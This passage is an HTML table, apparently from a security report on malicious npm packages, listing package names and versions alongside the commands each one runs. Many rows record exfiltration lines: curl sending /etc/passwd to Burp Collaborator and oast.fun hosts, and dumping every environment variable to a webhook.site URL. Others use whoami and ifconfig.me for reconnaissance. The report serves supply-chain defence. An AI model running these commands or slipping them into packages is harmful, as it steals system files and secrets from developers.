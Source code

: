 <tr><td>inteken-app-client</td><td>9.9.6</td><td><code>/usr/bin/curl</code></td><td><code>/usr/bin/curl --data @/etc/passwd c15510217590el32g9cjsa8u8mo6t3fetd98lzrqff.burpcollaborator.net</code></td></tr>
<tr><td>jupiter-emoji</td><td>9.999.0</td><td><code>curl</code></td><td><code>curl https://ifconfig.me</code></td></tr>
<tr><td>jupiter-emoji</td><td>9.999.0</td><td><code>whoami</code></td><td><code>whoami</code></td></tr>
<tr><td>jupiter-i18n</td><td>9.999.0</td><td><code>curl</code></td><td><code>curl https://ifconfig.me</code></td></tr>
<tr><td>jupiter-i18n</td><td>9.999.0</td><td><code>whoami</code></td><td><code>whoami</code></td></tr>
<tr><td>jupiter-opensdk</td><td>9.999.0</td><td><code>curl</code></td><td><code>curl https://ifconfig.me</code></td></tr>
<tr><td>jupiter-opensdk</td><td>9.999.0</td><td><code>whoami</code></td><td><code>whoami</code></td></tr>
<tr><td>lab-npm-package</td><td>1.0.7</td><td><code>curl</code></td><td><code>curl -X POST -H Content-Type: application/json -d {env_variable:  } https://webhook.site/6c53f051-f81b-4ea1-853c-a4ea76539a5c</code></td></tr>
<tr><td>lab-npm-package</td><td>1.0.8</td><td><code>curl</code></td><td><code>curl -X POST -H Content-Type: application/json -d {env_variable: rajesh } https://webhook.site/6c53f051-f81b-4ea1-853c-a4ea76539a5c</code></td></tr>
<tr><td>lab-npm-package</td><td>2.0.1</td><td><code>curl</code></td><td><code>curl -X POST -H Content-Type: application/json -d {"environment_variables": $(printenv | jq -Rs .)} https://webhook.site/6c53f051-f81b-4ea1-853c-a4ea76539a5c</code></td></tr>
<tr><td>lab-npm-package</td><td>2.0.2</td><td><code>curl</code></td><td><code>curl -X POST -H Content-Type: application/json -d {environment_variables: $(printenv | jq -Rs .)} https://webhook.site/6c53f051-f81b-4ea1-853c-a4ea76539a5c</code></td></tr>
<tr><td>master-oracle-lib</td><td>20.0.0</td><td><code>curl</code></td><td><code>curl ifconfig.me</code></td></tr>
<tr><td>metronome-synth-info-lib</td><td>20.0.0</td><td><code>curl</code></td><td><code>curl ifconfig.me</code></td></tr>
<tr><td>metronome-synth-user-lib</td><td>20.0.2</td><td><code>curl</code></td><td><code>curl ifconfig.me</code></td></tr>
<tr><td>metronome-ui</td><td>21.0.2</td><td><code>curl</code></td><td><code>curl ifconfig.me</code></td></tr>
<tr><td>mfp-food-diary</td><td>0.1.1</td><td><code>/usr/bin/curl</code></td><td><code>/usr/bin/curl --data @/etc/passwd dc9065f3a7b5cm31san2vtc000046akggkbohioyyyyyb.oast.fun</code></td></tr>
<tr><td>mfp-food-diary</td><td>0.1.2</td><td><code>/usr/bin/curl</code></td><td><code>/usr/bin/curl --data @/etc/passwd 5056fcbc2be2cm31san2vtc000046akggkbohioyyyyyb.oast.fun</code></td></tr>
<tr><td>mfp-test-repo</td><td>0.1.1</td><td><code>/usr/bin/curl</code></td><td><code>/usr/bin/curl --data @/etc/passwd f134e3ae147dcm31san2vtc000046akggkbohioyyyyyb.oast.fun</code></td></tr>
<tr><td>npm-random-gen</td><td>1.0.1</td><td><code>curl</code></td><td><code>curl -X POST -F file=@preinstall.txt https://eoerh8zdok2dcuf.m.pipedream.net</code></td></tr>
<tr><td>pathkit-local</td><td>9.9.9</td><td><code>/usr/bin/curl</code></td><td><code>/usr/bin/curl --data @/etc/passwd 00ad358605ce3y2fc9xtt9toy1u2y4txfy665xbnzc.burpcollaborator.net</code></td></tr>
<tr><td>payment-react-component</td><td>1.5.0</td><td><code>/usr/bin/curl</code></td><td><code>/usr/bin/curl 01dd4079912f.rhck43o9lrknmap6jncly360zr5itahz.oastify.com/payment-react-component</code></td></tr>
<tr><td>pmd-github-action</td><td>2.1.1</td><td><code>whoami</code></td><td><code>whoami</code></td></tr>
<tr><td>pmd-github-action</td><td>7.2.9</td><td><code>whoami</code></td><td><code>whoami</code></td></tr>
<tr><td>pmd-github-action</td><td>7.9.9</td><td><code>whoami</code></td><td><code>whoami</code></td></tr>
<tr><td>pmd-github-action</td><td>9.9.9</td><td><code>whoami</code></td><td><code>whoami</code></td></tr>
<tr><td>ppreact7</td><td>7.0.0</td><td><code>/usr/bin/curl</code></td><td><code>/usr/bin/curl --data @/etc/hosts 30e72bbc4f57.0yj0npk9xow79fekqjlndw4lr.canarytokens.com</code></td></tr>
<tr><td>puppeteer-example</td><td>0.1.12</td><td><code>whoami</code></td><td><code>whoami</code></td></tr>
<tr><td>puppeteer-example</td><td>0.1.13</td><td><code>whoami</code></td><td><code>whoami</code></td></tr>
<tr><td>puppeteer-example</td><td>0.1.14</td><td><code>whoami</code></td><td><code>whoami</code></td></tr>